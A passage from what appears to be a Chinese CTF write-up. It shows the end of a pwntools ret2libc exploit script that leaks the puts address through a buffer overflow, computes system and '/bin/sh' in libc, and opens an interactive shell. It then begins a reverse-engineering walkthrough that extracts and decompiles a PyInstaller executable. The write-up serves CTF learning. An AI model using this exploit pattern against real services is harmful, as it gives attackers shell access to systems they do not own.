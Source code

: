 	#libc=ELF('/lib/i386-linux-gnu/libc.so.6')

	puts_plt=elf.plt['puts']

	puts_got=elf.got['puts']

	main=0x080485A5

	payload='a'*52+p32(puts_plt)+p32(main)+p32(puts_got)

	r.recvline('>')

	r.sendline(payload)

	puts_addr=u32(r.recv(4))

	base=puts_addr-libc.symbols['puts']

	sys_addr=base+libc.symbols['system']

	bin_addr=base+next(libc.search('/bin/sh'))

	payload='a'*52+p32(sys_addr)+p32(main)+p32(bin_addr)

	r.recvline('>')

	r.sendline(payload)

	r.interactive()
	

	
	
	
	
	
	
# **Reserve1 – she**




附件里面有一个exe文件和一个pyc文件，pyc文件无法反编译，一开始以为改了pyc结构，用winhex修改后发现还是不能反编译。于是放弃这个，把目标转到exe文件上，Python生成的exe是通过python的模块进行实现并不是直接编译出程序。可以用pyinstxtractor.py(下载地址*https://sourceforge.net/projects/pyinstallerextractor*)打开。

打开之后出现了很多文件，用winhex打开AnhengRe文件，加上pyc的文件头

	33 0D 0D 0A 00 00 00 00 00 00 00 00

然后后缀改为pyc就可以反编译了。

	#!/usr/bin/env python

	# encoding: utf-8

	# 如果觉得不错，可以推荐给你的朋友！http://tool.lu/pyc

	import os

	n1 = input('Tell me your name?')
